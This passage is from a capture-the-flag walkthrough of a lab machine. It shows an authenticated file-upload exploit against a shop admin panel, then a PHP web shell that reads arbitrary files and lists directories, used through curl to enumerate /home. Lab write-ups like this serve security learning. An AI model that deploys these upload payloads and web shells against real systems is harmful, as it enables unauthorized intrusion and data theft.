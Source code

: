     files = {
            'vqmod': (rand + ".php", '<?php phpinfo();  ?>', "application/xml"),
            'token':one,
            'upload':(None,"Upload")
        }
    
    
    
    root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
    Shell => http://10.10.10.207/shop/admin/../vqmod/xml/DPYLZ.php?c=id
    <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml"><head>
    ...[snip]...
    

I’ll use that address to view the page. In that information, it’s clear why
the webshell isn’t working:

[![image-20210116152148808](https://0xdfimages.gitlab.io/img/image-20210116152148808.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20210116152148808.png)

These functions are disabled, including `system` that’s used in the exploit.

`disable_functions` can be bypassed pretty easily, but that’s not the intended
way to solve this box (I’ll show it in the next section).

### Path #1: Enumeration via PHP

#### Read File / Dir List PHP

I modified the exploit again to upload a PHP file that allows me to get files
and directories:

    
    
    sploit = """<?php
    if (isset($_REQUEST['file'])) { 
        echo file_get_contents($_REQUEST['file']);
    } 
    
    if (isset($_REQUEST['dir'])) {
        print_r(scandir($_REQUEST['dir']));
    }
    
    ?>
    """
    files = {
            'vqmod': (rand + ".php", sploit, "application/xml"),
            'token':one,
            'upload':(None,"Upload")
        }
    

After running that, I can list a directory:

    
    
    root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "dir=/home"
    Array
    (
        [0] => .
        [1] => ..
        [2] => sysadmin
    )
    